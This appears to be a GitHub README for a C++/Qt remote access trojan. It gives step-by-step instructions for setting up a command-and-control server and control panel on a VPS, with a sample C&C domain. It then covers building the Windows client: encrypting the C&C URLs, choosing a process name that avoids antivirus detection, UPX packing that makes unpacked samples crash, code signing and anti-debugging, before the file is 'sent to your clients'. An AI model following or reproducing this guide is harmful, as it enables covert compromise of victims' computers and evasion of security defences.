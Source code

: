 # RAT
Rat coded in C++ and using QT
Educational Purposes Only
USAGE OF THIS PROGRAM's code, credit must be give

SETUP GUIDE
============


Server Side Instructions:
===========================
In order to setup the control panel, you will need a linux VPS with root access.
You only need to do this once.
I recommend ubuntu as it is easier to get and install packages required to build the control panel.

1.Download the Files
2. Upload QT folder to the server

2.2. You now have to install qtcreator before compiling, under ubuntu please issue the following command as root:
apt-get install qtcreator


2.3. Now go to the p folder (cd p/) and edit your config file common.h, this file is quite stright forward as you can see:

This is where your domain goes:
#define P_HOSTNAME                                     "bitspeercachedetect.com"

These are required for SSL support:
#define P_PEM_CERT                            "bitspeercachedetect.com.cert.pem" // Your SSL certificate file
#define P_PEM_KEY                              "bitspeercachedetect.com.key.pem" // Your private SSL key file
#define P_PEM_CHAIN                                              "gd_bundle.crt" // Godaddy certificate bundles

You can get the last file from https://certs.godaddy.com/anonymous/repository.pki considering you SSL certificate is from Godaddy.
You don't need to use SSL but it is highly recommended for obvious reasons.

- Other configuration options are just for fine tuning but work perfectly fine the way they are, don't change them unless you've read the entire (yes, the entire) code !!

2.4 Compile the code using these 2 commands:
qmake
make
This will take a while as it is quite a lot of code.

2.5 Once done compiling you need to setup one last thing. cd to the htroot directory. (command: cd htroot)
- Create a folder with your domain name, for example: mkdir my.domain.com
- run the following command, replace my.domain.com with your C&C domain:
cp -R localhost/* my.domain.com/

- cd to the cgi-bin dir under your domain's folder, ie: cd my.domain.com/cgi-bin
- Now run the following commands:
touch clock
touch cmd
touch dir
touch drop
touch ip
touch list
touch noop
touch otp
touch otpgen
touch report
touch session

- go back to domain (cd ..) folder and run command mkdir static-files
- go inside folder static-files run this command:
ln -s  ../../../htbits/sessions/ gpe3c55teci1r975ihvfxkjexvzd3z4z

- Make sure no other webserver is running (like apache2 or nginx), if they are just stop them
/etc/init.d/nginx stop
/etc/init.d/apache2 stop
apache2ctl stop

- All done! Now go back to the main folder (p) and execute the webserver: ./p &
- You might want to setup a cron job that checks and runs the file if it is not running.

In order to login you must generate a One-Time-Password using the following link:
http://my.domain.com/cgi-bin/otpgen?cred={6jsi84qp-z1vi-xt14-nl6q-cdhbq3w7qrmt}
- Then take this password and use it @ login:
http://my.domain.com/cgi-bin/list

Notice that if you are not using SSL you will still be redirected to a SSL link (https://) - Just replace this with http:// and you should be good.







Client Side Setup:
===================

Requirements:
--------------
1. Visual Studio (2010 is recommended but others should work with no problems)
2. Stringprotect.exe (provided with this code)
3. UPX version 3.07 (!)


1. Extract the file p2-export.tar.bz2 to any location.

2. Go to the folder named "d" and open d.sln.
- You might be asked to convert the file depending on your version of visual studio. Do it if you are asked.

3. In visual studio, find the file named common.h and open it on your screen, this is the config file for the client side.

4. You will see 2 sets of config, 1 that doesnt use string protect and 1 that does. You only need to change the encrypted strings. Unencrypted is only for reference and debugging.

- Open the string encryption tool (stringprotect.exe) provided to you by me in the archive.
- First, we want to change the URLs of the C&C:
- In the tool write the following, be sure that my.domain.com is the actual domain you are using:
S("http://my.domain.com/")
if you want SSL support use https:
S("https://my.domain.com/")
* !! YOU MUST HAVE A REAL AND VALID SSL CERTIFICATE FOR THIS DOMAIN IF YOU WANT TO USE SSL !! *

This will results in an encrypted strings in the second box, copy that strings [without the "S(" and ")" just the \x5c... part] into the right place of common.h so it looks like this:

#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:
http://my.domain.com/cgi-bin/noop?id=
so in stringprotect.exe you write:
S("http://my.domain.com/cgi-bin/noop?id=")
and copy encrypted string to the right location at common.h so it looks like:

#define REQUEST_NOOP L"\x5c\x5b ..."

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


--- *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
    ===========================================
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }

comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe

- Now your file is ready to be digitally signed with signtool and sent to your clients :)
https://www.google.com/search?q=signtool
I recommend using like this from cmd.exe:
signtool /signwizard

Don't forget to use time-stamp url so the signature will be valid forever.


Good Luck!









Extra info:
-----------
This is a very big and complex code. Not the every-day skid quality.
If you are making changes to it there are some things you should be aware of:

String encryption is quite a simple encryption code found in main.cpp.

The encryption key is part of the binary file (after compiled). It is the string of the UPX version.
"3.07(0x00)UPX"
This is why you must use upx 3.07 to pack the file.
This also insures that if AV unpacks the file from UPX to analyze - it cannot run correctly and will crash.

Wintrust is also used to ensure that the file has been signed.
If the fils is not signed (and if you didn't change the source code) - The file will not run.
This way tampering and static analysis is quite impossible. Unless you want to analyze a upx packed file :-)
Other anti-debgging techs are implanted into the code and you can find them mostly in main.cpp



upx 3.0.7
windows sdk
pscp
visual studio 2010
putty.exe

VPS Ubuntu 14.04 LTS (32bit)
Thanks and Much Love ~ -0xret2plt

ONE MORE NOTE:
GetVersionExA is "deprecated" but apparently RtlGetVersionExA is "not"
